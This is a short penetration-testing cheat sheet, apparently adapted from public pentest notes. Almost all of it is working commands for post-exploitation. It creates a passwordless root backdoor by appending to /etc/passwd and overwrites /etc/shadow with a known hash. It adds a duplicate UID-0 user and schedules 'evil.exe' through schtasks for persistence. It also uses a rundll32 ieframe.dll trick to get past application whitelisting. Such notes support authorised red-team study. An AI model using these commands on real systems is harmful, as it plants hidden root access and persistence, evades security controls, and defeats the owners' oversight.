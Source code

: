 ### Creating Backdoor User w/o Password

```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

### Creating Another root User

```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password

```bash
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors

```text
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Code Execution / Application Whitelist Bypass

### Ieframe.dll

{% code-tabs %}
{% code-tabs-item title="cmd" %}
```text
rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url
```
{% endcode-tabs-item %}

{% code-tabs-item title="test.url" %}
```
[internetshortcut]
url=c:\windows\system32\calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

